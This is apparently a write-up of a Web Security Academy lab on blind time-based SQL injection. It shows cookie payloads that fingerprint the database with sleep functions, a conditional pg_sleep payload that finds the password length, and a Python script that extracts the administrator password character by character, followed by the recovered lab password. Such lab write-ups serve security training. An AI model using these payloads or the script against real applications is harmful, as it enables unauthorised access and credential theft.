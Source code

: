 # Lab: Blind SQL injection with time delays and information retrieval 

## Step 1 : Check vul and database 
`Cookie: TrackingId=xhYYahy4iEmzCRlc `

```sql
' || (SELECT sleep(10))-- -     => MySQL => False
' || (SELECT pg_sleep(10)) -- - => PostgreSQL => True 

```

## Step 2 : Check length with condition `case when (condition) then pg_sleep(10) else pg_sleep(0) end from table_name`
```sql
 ' || (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users where username='administrator' and length(password)=20)-- - `
```
==> Length password : 20

## Step 3 : Code payload
```py
import requests
import string
import time 
import sys

chars = string.printable[:-6]
url='https://ac2a1f2f1e077f22c0b23870000b00a8.web-security-academy.net/'
pass_admin=''
i=1
s=requests.Session()
s.get(url)
#PostgreSQL	

while True:
	for c in chars:
		payload=f"1' || (SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users where username='administrator' and substring(password,{i},1)='{c}')-- - "
		cookie1={"TrackingId":payload}
		time_1=time.time()
		r = requests.get(url,cookies=cookie1)
		print(c)
		time_2=time.time()
		sum_time=time_2 - time_1
		if sum_time < 3 :
			pass
		else :
			print('okeeeeeeeeeee')
			pass_admin+=c 
			i+=1
			print(pass_admin)
			break

		if(i==21):
			print('password administrator :' + pass_admin)
			exit()


```

==> Password administrator :3p2yz4gyqbsqpn2gro22
